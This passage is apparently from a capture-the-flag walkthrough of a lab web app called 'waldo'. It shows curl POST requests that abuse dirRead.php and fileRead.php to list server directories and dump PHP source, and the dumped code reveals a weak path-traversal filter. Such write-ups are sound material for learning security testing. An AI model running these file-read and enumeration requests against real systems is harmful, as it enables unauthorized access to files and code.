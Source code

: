Hm.. `gobuster` isn't going to work for us likely because of the redirect?

#### BURPSUITE

Let's examine what's happening when we interact with this "waldo" application with
`burpsuite`.

When we try and "create" a list, it is a `POST` call to `/fileWrite.php` with the
parameters `listnum=1&data=` ("1" being the list identifier).

When we try and click on our newly created list, it is `POST` call to `/fileRead.php`
with the parameters `file=./.list/list1` (".list" appears to be the directory where
our list files are written).

When we try and create a new item in our list, it is a `POST` call to `/fileWrite.php`
with parameters `listnum=1&data=("1":"test")` (we are now starting to better
understand the calling convention to `fileWrite.php`).

When we click the "back" button from the file element screen, we find it is a `POST`
call to `/dirRead.php` with parameter `path=./.list/`. This is a very interesting
script because it may help us enumerate what else is on the system!

```
$ curl -d "path=./" -X POST http://10.10.10.87:80/dirRead.php
[".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```

So exploiting the `dirRead.php` script, we discover a full listing of files related to
the webapp..

```
1. dirRead.php
2. fileDelete.php
3. fileRead.php
4. fileWrite.php
5. index.php
6. list.html
7. list.js
8. .list
9. background.jpg
10. cursor.png
11. face.png
```

##### DIREAD.PHP

Now we can exploit the `fileRead.php` script to dump the contents of these files..

```
$ curl -d "file=./dirRead.php" -X POST http://10.10.10.87:80/fileRead.php
{"file":"<?php\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\tif(isset($_POST['path'])){\n\t\theader('Content-type: application\/json');\n\t\t$_POST['path'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['path']);\n\t\techo json_encode(scandir(\"\/var\/www\/html\/\" . $_POST['path']));\n\t}else{\n\t\theader('Content-type: application\/json');\n\t\techo '[false]';\n\t}\n}\n"}
```
